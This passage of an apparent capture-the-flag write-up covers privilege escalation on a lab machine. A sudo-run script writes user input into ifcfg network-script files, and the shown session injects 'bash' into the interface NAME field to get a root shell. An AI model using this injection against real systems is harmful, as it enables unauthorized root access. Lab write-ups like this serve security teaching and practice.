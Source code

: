 ```
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
[guly@networked ~]$ ls -l /usr/local/sbin/changename.sh
ls -l /usr/local/sbin/changename.sh
-rwxr-xr-x 1 root root 422 Jul  8  2019 /usr/local/sbin/changename.sh
[guly@networked ~]$ 
```

We can see that this script is running with `/bin/bash -p`. This means privileged mode. So it will have root privileges.

I google network scripts: https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/deployment_guide/s1-networkscripts-interfaces


```
Interface configuration files control the software interfaces for individual network devices. 
As the system boots, it uses these files to determine what interfaces to bring up and how to configure them. 
These files are usually named ifcfg-name, where name refers to the name of the device that the configuration file controls. 


The following is a sample ifcfg-eth0 file for a system using a fixed IP address:

DEVICE=eth0
BOOTPROTO=none
ONBOOT=yes
NETMASK=255.255.255.0
IPADDR=10.0.1.27
USERCTL=no
```

I then google network scripts exploits and find this: https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f

``` 
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh                                                                  
sudo /usr/local/sbin/changename.sh
interface NAME:
test bash
test bash
interface PROXY_METHOD:
test
test
interface BROWSER_ONLY:
test
test
interface BOOTPROTO:
test
test
[root@networked network-scripts]# whoami
whoami
root
[root@networked network-scripts]# 
```
so by naming the interface `anything` SPACE `bash` I will get the bash at the end of the script.
